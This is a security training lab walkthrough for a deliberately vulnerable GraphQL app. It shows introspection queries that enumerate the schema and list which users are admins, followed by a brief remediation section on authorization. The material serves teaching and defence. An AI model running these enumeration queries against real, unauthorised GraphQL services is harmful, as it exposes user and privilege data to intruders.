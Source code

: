 # KBID 285 - GraphQL introspections

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

Now that the app is running let's go hacking!

## Reconnaissance

As soon as we browse on `http://0.0.0.0:5000` we see the few posts published by 2 users

PRTINSCREEN PLACEHOLDER

## Exploitation

We want to use the introspection feature (enabled) in this case, to understand more about what queries are supported.

Let' use the `GraphiQL` UI to send queries to the backend and discover what is available.

Go to `http://0.0.0.0:5000/graphql`. We can query the generic `__schema` using:

```
{
  __schema {
    types {
      name
    }
  }
}
```

The application gives us interesting `Types`. Let's explore the `User` one. If we build another query we can ask for more information, exploring every field available. Let's send the following:

```
{
	__type(name: "User"){
    name
    fields{
      name
    }
  }
}
```

In this case, for each field we we want to know what are the subfields and of which type.

The application will answer with:

```json
{
  "data": {
    "__type": {
      "name": "User",
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "isAdmin"
        }
      ]
    }
  }
}
```

> BINGO! We have some good information here

We can see that there is an interesting field `isAdmin`, that we can use to find out who is the admin of the application.

Now we just need to query all the Users. To do that, let's see if there is a query available. We can use the following syntax:

```
{
	__schema{
    queryType{
      fields{
        name
        description
      }
    }
  }
}
```

That will give us the `Users` query. Now we need to understand what are the fields. We can do that in different ways, using GraphiQL or doing some more introspection. In this case we use GraphiQL, sending the following query:

```
{
	Users{
    username
    isAdmin
  }
}

```

PRINTSCREEN PLACEHOLDER

## Solution

Implement authorization on graphql endpoint. Although authenticated users could query the information, you should not map sensitive information into the type defined into the schema.

## Additional resources
